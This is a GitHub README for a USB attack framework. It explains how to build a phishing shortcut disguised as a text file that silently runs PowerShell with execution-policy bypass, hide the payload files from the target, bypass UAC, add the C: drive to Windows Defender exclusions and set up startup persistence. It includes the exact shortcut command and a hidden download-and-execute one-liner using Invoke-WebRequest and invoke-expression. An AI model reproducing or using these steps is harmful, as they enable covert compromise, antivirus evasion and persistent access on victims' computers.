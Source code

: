 # USB-Raid-Framework

![Logo](https://github.com/I-Am-Jakoby/hak5-submissions/blob/main/Assets/logo-170-px.png?raw=true)

<img src="https://media.giphy.com/media/VgCDAzcKvsR6OM0uWg/giphy.gif" width="50"> 

<h1 align="center">
  <a href="https://git.io/typing-svg">
    <img src="https://readme-typing-svg.herokuapp.com/?lines=Welcome+to+the;USB+Raid+Framework!+😈&center=true&size=30">
  </a>
</h1>

<!-- TABLE OF CONTENTS -->
<details>
  <summary>Table of Contents</summary>
  <ol>
    <li><a href="#Description">Description</a></li>
    <li><a href="#getting-started">Getting Started</a></li>
    <li><a href="#Contributing">Contributing</a></li>
    <li><a href="#Version-History">Version History</a></li>
    <li><a href="#Contact">Contact</a></li>
    <li><a href="#Acknowledgments">Acknowledgments</a></li>
  </ol>
</details>

<div align=left>
<img align="center" src="https://github.com/I-Am-Jakoby/I-Am-Jakoby/blob/main/Assets/usb-raid.png" width="300">
  <p>YouTube Tutorial</p>
</div>


An offensive security framework that weaponizes any standard USB Device 

## Description

This framework is designed to be implemented on any standard USB Drive 

This attack takes advantage of the ability to run powershell commands from inside a .lnk file.

The following video is another example of how this method may be implemented. 

<p align="left">
      <a href="https://www.youtube.com/watch?v=sOLIdqpzrW4">
        <img src=https://github.com/I-Am-Jakoby/hak5-submissions/raw/main/Assets/Shortcut-Jacker/sjtn.png width="300" alt="Python" />
      </a>
      <br>YouTube Tutorial	
</p>

After downloading the .Zip file and placing the contents on your USB drive you'll want to delete the ReadMe.md and LICENSE file 

Next you will want to make sure the `h` directory and `s1.bat` file have the hidden attribute. You do not want these files to be visible to your target. 

Now in the Root directory you should have 3 files

* A hidden `h` directory - Folder containing all the files needed to be moved onto your targets system, and the initial script to be run 
* A hidden `s1.bat` file - A bat file called on by the shortcut to move all the above files and execute the initial script
* A `contacts.txt` .lnk file (shortcut) - a shortcut phishing file disguised as a text file to entice your target to open it

The `h` directory will contain 5 more files 

* `contacts.txt` - the actual text file to be opened by the shortcut to convince your target they just opened a regular txt file 
* `exception.ps1` - A script containing a UAC bypass to open an admin window and add the targets C:/ drive to the windows defender exclusion list. This will prevent further tools you download from being flagged by defender
* `intitial.ps1` - This is a script that will be ran one time when the target open the fake text file 
* `persist.cmd` - This is a file added to the start up folder to achieve persistence. It will call on the `persist.ps1` file stored in the AppData directory
* `persist.ps1` - This is the file that will contain your script that will be run everytime the target boots up their computer 

## Getting Started

Taking advantage of a little known secret we will be running powershell code embedded in a shortcuts target field as seen in the image below. 

This has a few advantages. 
* You can't run a regular powershell script by double clicking on it. It will only open it with your default text editor. It will run from a shortcut
* External powershell scripts can not be run without triggering the UAC prompt. We use the shortcut to open their own powershell console we run it from to trick their sytem into thinking it is from a native script. 

This is the code in that target text box: 

```C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -NoP -NonI -W H -ep bypass ".((gwmi win32_volume -f 'label=''259''').Name+'s1.bat')```

<div align=left>
<img align="center" src="https://github.com/I-Am-Jakoby/I-Am-Jakoby/blob/main/Assets/USB-Raid/lnk.properties.png" width="300">
  <p>YouTube Tutorial</p>
</div>

This code will open a powershell console and bypass the execution policy and run our bat file after identifying what drive letter our USB is. 

In order for it to find our drive we must change the label of our USB to match the label used in our code in the target text box. 

For this example notice the label in the image below and the code above are both `259`. This can be changed but they both need to match.

<div align=left>
<img align="center" src="https://github.com/I-Am-Jakoby/I-Am-Jakoby/blob/main/Assets/USB-Raid/label-259.png" width="300">
  <p>YouTube Tutorial</p>
</div>





### Dependencies

* An internet connection
* Windows 10,11

<p align="right">(<a href="#top">back to top</a>)</p>

### Executing program

* Plug in your device
* Invoke-WebRequest will be entered in the Run Box to download and execute the dependencies and payload
```
powershell -w h -NoP -NonI -Exec Bypass $pl = iwr < Your Shared link for the intended file> ?dl=1; invoke-expression $pl
```

<p align="right">(<a href="#top">back to top</a>)</p>

## Contributing

All contributors names will be listed here

I am Jakoby

<p align="right">(<a href="#top">back to top</a>)</p>

## Version History

* 0.1
    * Initial Release

<p align="right">(<a href="#top">back to top</a>)</p>

<!-- CONTACT -->
## Contact

<h2 align="center">📱 My Socials 📱</h2>
<div align=center>
<table>
  <tr>
    <td align="center" width="96">
      <a href="https://youtube.com/c/IamJakoby?sub_confirmation=1">
        <img src=https://github.com/I-Am-Jakoby/I-Am-Jakoby/blob/main/img/youtube-svgrepo-com.svg width="48" height="48" alt="C#" />
      </a>
      <br>YouTube
    </td>
    <td align="center" width="96">
      <a href="https://twitter.com/I_Am_Jakoby">
        <img src=https://github.com/I-Am-Jakoby/I-Am-Jakoby/blob/main/img/twitter.png width="48" height="48" alt="Python" />
      </a>
      <br>Twitter
    </td>
    <td align="center" width="96">
      <a href="https://www.instagram.com/i_am_jakoby/">
        <img src=https://github.com/I-Am-Jakoby/I-Am-Jakoby/blob/main/img/insta.png width="48" height="48" alt="Golang" />
      </a>
      <br>Instagram
    </td>
    <td align="center" width="96">
      <a href="https://discord.gg/MYYER2ZcJF">
        <img src=https://github.com/I-Am-Jakoby/I-Am-Jakoby/blob/main/img/discord-v2-svgrepo-com.svg width="48" height="48" alt="Jsonnet" />
      </a>
      <br>Discord
    </td>
  </tr>
</table>
</div>

<p align="right">(<a href="#top">back to top</a>)</p>

<!-- ACKNOWLEDGMENTS -->
## Acknowledgments

* [Hak5](https://hak5.org/)
* [MG](https://github.com/OMG-MG)

<p align="right">(<a href="#top">back to top</a>)</p>

<p align="center">
        <img src="https://raw.githubusercontent.com/bornmay/bornmay/Update/svg/Bottom.svg" alt="Github Stats" />
</p>
